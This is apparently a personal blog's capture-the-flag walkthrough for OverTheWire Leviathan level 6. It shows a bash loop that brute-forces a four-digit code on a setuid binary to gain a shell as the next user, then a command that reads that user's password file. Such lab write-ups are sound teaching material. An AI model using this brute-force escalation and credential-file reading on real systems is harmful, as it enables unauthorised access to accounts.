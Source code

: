 ```yaml
---
title: OverTheWire Leviathan Level 5 -> 6
author: Michael McDonagh
pubDatetime: 2025-03-02T13:00:00Z
slug: overthewire-leviathan-6
featured: false
draft: false
tags:
  - overthewire
  - leviathan
  - linux
ogImage: ""
description: Solution for OverTheWire Leviathan level 6 challenge.
---
```


## Level Goal  

There is no information for this level, intentionally.

---

## Walkthrough  

Solution for the Overthewire.org [Leviathan level 6](https://overthewire.org/wargames/leviathan/leviathan6.html)

Login to the server using the password obtained from the previous level [Leviathan level 5](/posts/overthewire-leviathan-5).  

username: `leviathan6`  

```bash
ssh leviathan6@leviathan.labs.overthewire.org -p 2223
```

Check the home directory.

```bash
leviathan6@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan6` with the suid bit set.
When we run `leviathan6` it tells us it expects a 4 digit code.

```bash
leviathan6@leviathan:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
```

We can brute force this using a bash script to generate all digits from 0000 to 9999

```bash
leviathan6@leviathan:~$ for i in {0000..9999}; do ./leviathan6 $i; done
```

Now just wait while all digits are tested. When the correct one is used we get a new shell.

```bash
Wrong
Wrong
Wrong
Wrong
Wrong
Wrong
$
```

Using `id` we can see we have a shell as `leviathan7`. We can read the password file directly.

```bash
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)

$ cat /etc/leviathan_pass/leviathan7
ahy*******
```
